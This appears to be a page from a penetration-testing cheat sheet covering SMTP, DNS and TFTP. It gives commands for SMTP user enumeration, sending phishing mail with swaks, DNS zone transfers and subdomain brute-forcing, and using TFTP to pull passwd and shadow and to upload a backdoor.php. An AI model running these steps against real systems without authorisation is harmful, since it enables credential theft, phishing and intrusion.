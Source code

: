 ## 📧 Port 25 - SMTP
**Service:** Simple Mail Transfer Protocol  
**Common vulns:** User enumeration, open relay

### Enumeration
```bash
# Manual enumeration
nc $TARGET 25
VRFY root
VRFY admin
EXPN users

# Automated
smtp-user-enum -M VRFY -U users.txt -t $TARGET
```

### Exploitation
```bash
# Send phishing email (social engineering CTF)
swaks --to admin@target.com --from test@test.com --server $TARGET
```

---

## 🌐 Port 53 - DNS
**Service:** Domain Name System  
**Common vulns:** Zone transfer, DNS cache poisoning

### Enumeration
```bash
# Zone transfer
dig axfr @$TARGET domain.local
dnsrecon -d domain.local -n $TARGET -t axfr

# Subdomain brute
gobuster dns -d domain.local -w subdomains.txt
```

---

## 📦 Port 69 - TFTP
**Service:** Trivial File Transfer Protocol  
**Common vulns:** No authentication

### Exploitation
```bash
# Download files
tftp $TARGET
tftp> get passwd
tftp> get shadow

# Upload backdoor
tftp> put backdoor.php
```

---